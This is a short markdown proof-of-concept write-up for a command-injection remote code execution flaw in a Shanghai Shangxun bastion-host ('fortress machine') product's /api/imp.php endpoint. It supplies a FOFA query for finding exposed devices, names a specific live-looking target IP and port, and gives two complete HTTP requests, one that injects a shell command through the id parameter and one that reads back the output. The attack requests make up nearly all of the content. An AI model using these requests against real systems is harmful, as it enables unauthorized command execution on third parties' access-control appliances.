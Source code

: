 #### Shanghai Shangxun Information Technology Co., Ltd_Fortress machine_/api/imp.php interface RCE

##### FOFA statement：

```
body="default/getloginhtml"
```

##### Vulnerability details：

If you run poc1 and then poc2, you can return the commands executed in poc1 to the 1.txt.

target:https://58.34.251.124:30443/

##### POC1：

![image-20250125220155441](./1.png)

```
GET /api/imp.php?type=immediate&id=|id%3E1.txt| HTTP/1.1
Host: 58.34.251.124:30443
Connection: keep-alive
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: localecookie=a%3A3%3A%7Bs%3A12%3A%22DEFAULT_LANG%22%3Bs%3A11%3A%22zh_CN.UTF-8%22%3Bs%3A12%3A%22FIELD_PREFIX%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22PACKAGE%22%3Bs%3A3%3A%22oma%22%3B%7D; PHPSESSID=4ce3c4182e3a2d2684bb6964f4a16842
```

![image-20250125220033222](./2.png)

##### POC2：

![image-20250125220205777](./3.png)

```
GET /api/1.txt HTTP/1.1
Host: 58.34.251.124:30443
Connection: keep-alive
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=51650b0d4aaa5714b1580d6e7bdb5fc1
If-None-Match: "3490564580"
If-Modified-Since: Sat, 25 Jan 2025 13:26:02 GMT
```

![image-20250125220049338](./4.png)
